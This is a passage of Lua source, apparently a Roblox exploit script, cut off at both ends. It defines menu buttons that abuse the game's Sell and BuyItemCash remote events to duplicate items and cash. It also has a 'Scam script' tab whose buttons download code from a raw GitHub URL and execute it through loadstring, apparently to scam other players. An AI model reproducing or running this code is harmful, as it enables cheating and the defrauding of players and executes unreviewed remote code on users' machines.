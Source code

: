 		game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
	end)

	Section:NewButton("Dupe Shiny Thing", "Buy item dupe cash", function()
		local args = {
			[1] = "Shiny Thing"
		}

		game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))
		local args = {
			[1] = "Shiny Thing"
		}

		game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
	end)
	Section:NewButton("Dupe Spidy", "Buy item dupe cash", function()
		local args = {
			[1] = "Spidy"
		}

		game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))
		local args = {
			[1] = "Spidy"
		}

		game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
	end)
	Section:NewButton("Dupe Tulsa Rainbow", "Buy item dupe cash", function()
		local args = {
			[1] = "Tulsa rainbow"
		}

		game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))
		local args = {
			[1] = "Tulsa rainbow"
		}

		game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
	end)
	local Tab     = Window:NewTab("Scam script")
	local Section = Tab:NewSection("scam working !!")
	Section:NewButton("Scam 1V", "Scam ppl", function()
		loadstring(game:HttpGet(('https://raw.githubusercontent.com/imaboy12321/shhh/main/gaey'),true))()
	end)
	Section:NewButton("Scam 2V", "Scam ppl", function()